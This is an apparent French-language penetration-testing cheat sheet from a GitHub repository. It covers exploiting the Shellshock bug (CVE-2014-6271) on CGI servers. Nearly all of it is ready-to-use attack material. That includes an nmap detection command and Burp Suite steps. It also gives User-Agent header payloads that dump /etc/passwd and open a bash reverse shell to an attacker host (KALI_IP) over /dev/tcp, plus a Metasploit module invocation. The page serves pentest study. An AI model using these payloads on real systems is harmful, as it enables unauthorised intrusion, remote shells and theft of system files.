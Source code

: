 # 🐧 Vulnérabilités Linux

[← Retour à la table des matières](../README.md)

## Shellshock (CVE-2014-6271)

### Détection
```bash
# Test de vulnérabilité Shellshock sur CGI
nmap -sV targetIP --script=http-shellshock --script-args "http-shellshock.uri=/scriptsCGI.cgi"
```

### Exploitation manuelle avec Burp Suite

#### Configuration
1. **Lancer FoxyProxy** pour rediriger vers Burp Suite
2. **Ouvrir Burp Suite** → Proxy → Activer l'intercept
3. **Recharger la page** cible
4. **Clic droit** → Send to Repeater

#### Injection dans les headers
```http
# Remplacer le User-Agent par :
User-Agent: () { :; }; echo; echo; /bin/bash -c 'cat /etc/passwd'

# Pour un reverse shell :
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i>&/dev/tcp/KALI_IP/PORT 0>&1'
```

### Exploitation avec Metasploit
```bash
use exploit/multi/http/apache_mod_cgi_bash_env_exec
set RHOSTS targetIP
set TARGETURI /scripts
# Adapter le TARGETURI selon l'emplacement du script CGI
run
```

## Autres vulnérabilités Linux

### Kernel Exploits
Voir [Linux Privilege Escalation](../05-post-exploitation/linux-privesc.md) pour les détails sur l'exploitation des vulnérabilités kernel.